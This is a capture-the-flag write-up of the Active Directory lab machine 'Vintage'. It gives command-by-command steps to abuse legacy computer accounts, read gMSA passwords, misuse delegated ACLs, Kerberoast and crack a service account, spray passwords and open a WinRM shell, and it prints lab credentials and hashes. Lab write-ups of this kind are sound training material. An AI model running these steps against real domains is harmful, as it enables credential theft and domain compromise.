Vintage is an Active Directory machine that focuses on Kerberos authentication, legacy group memberships, gMSA abuse, delegated ACLs, and Kerberoasting. Starting with a standard domain user account, the attack path leverages Pre-Windows 2000 Compatible Access to obtain control of a computer account, extract a gMSA password, abuse ServiceManagers permissions, Kerberoast a service account, and ultimately obtain a user shell.
Attack Path
p.rosa → FS01$ → GMSA01$ → ServiceManagers → svc_sql → Kerberoast → c.neri → WinRM
Initial Enumeration
The provided credentials were:
Username: p.rosa
Password: Rosaisbest123
Domain: vintage.htb
IP: 10.10.11.45Initial testing showed that NTLM authentication was not accepted, requiring Kerberos-based authentication for further enumeration.

Configuring Kerberos
Before interacting with the domain, Kerberos was configured locally by updating the hosts file, synchronizing time, and requesting a TGT.
echo "10.10.11.45 dc01.vintage.htb vintage.htb dc01" | sudo tee -a /etc/hosts
sudo net time set -S vintage.htb
echo 'Rosaisbest123' | kinit p.rosa
klist
BloodHound Enumeration
BloodHound collection was performed using both BloodHound CE and NetExec.
bloodhound-ce-python -c All \
-d vintage.htb \
-u 'P.Rosa' \
-p 'Rosaisbest123' \
-ns 10.10.11.45 \
--zipnxc ldap DC01.vintage.htb \
-d vintage.htb \
-u p.rosa \
-p Rosaisbest123 \
--bloodhound \
-c All \
--dns-server 10.10.11.45

Abusing Pre-Windows 2000 Compatible Access
BloodHound revealed that computer accounts inherited membership through the Pre-Windows 2000 Compatible Access group.

Testing the hostname as the password for the computer account resulted in successful authentication.
echo 'fs01' | kinit 'fs01$'
klist
Reading the gMSA Password
Further BloodHound analysis showed that FS01$ possessed ReadGMSAPassword permissions over GMSA01$.

bloodyAD -d vintage.htb -k \
--host dc01.vintage.htb \
get object \
"CN=GMSA01,CN=MANAGED SERVICE ACCOUNTS,DC=VINTAGE,DC=HTB" \
--attr msDS-ManagedPassword
Authenticating as GMSA01$
The extracted NTLM hash can be used to authenticate as the gMSA account.
ktutil
addent -p GMSA01$ -k 1 -key -e rc4-hmac
wkt /tmp/GMSA01.keytab
kinit -V -k -t /tmp/GMSA01.keytab -f 'GMSA01$'
An alternative approach is using Impacket directly.
impacket-getTGT \
-hashes :c3e2d44f1a108288b0906a796587ddee \
-dc-ip 10.10.11.45 \
'VINTAGE/GMSA01$'
Abusing ServiceManagers
BloodHound showed that GMSA01$ possessed AddSelf permissions over the ServiceManagers group.
bloodyAD -d vintage.htb -k \
--host dc01.vintage.htb \
add groupMember ServiceManagers 'GMSA01$'

Creating a Kerberoastable Account
The svc_sql account was disabled and did not have a Service Principal Name. Using GenericAll permissions, both issues were corrected.
bloodyAD -d vintage.htb -k \
remove uac svc_sql -f ACCOUNTDISABLE
bloodyAD -d vintage.htb -k \
set object svc_sql servicePrincipalName \
-v 'http/anything'
Kerberoasting svc_sql
netexec ldap 10.10.11.45 \
-d vintage.htb \
-u 'GMSA01$' \
-H 'c3e2d44f1a108288b0906a796587ddee' \
-k \
--kerberoasting hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Recovered password:
Zer0the0nePassword Spraying
The password was known, but the corresponding account still needed to be identified.
netexec ldap 10.10.11.45 \
-d vintage.htb \
-u 'GMSA01$' \
-H 'c3e2d44f1a108288b0906a796587ddee' \
-k \
--users
netexec ldap 10.10.11.45 \
-d vintage.htb \
-u users.txt \
-p 'Zer0the0ne' \
-k
The recovered password belonged to:
c.neriObtaining a User Shell
BloodHound showed that c.neri was a member of Remote Management Users, making WinRM access possible.

echo 'Zer0the0ne' | kinit c.neri
evil-winrm \
-i dc01.vintage.htb \
-r vintage.htb
Conclusion
Vintage demonstrates how multiple seemingly minor Active Directory misconfigurations can combine into a complete attack chain. Starting with a standard domain user, the path leveraged legacy computer account access, gMSA password retrieval, delegated ACL abuse, Kerberoasting, and password reuse to gain interactive access within the environment.
The most interesting aspect of this machine is how each individual privilege appears low impact in isolation, yet chaining them together results in a straightforward path to compromise.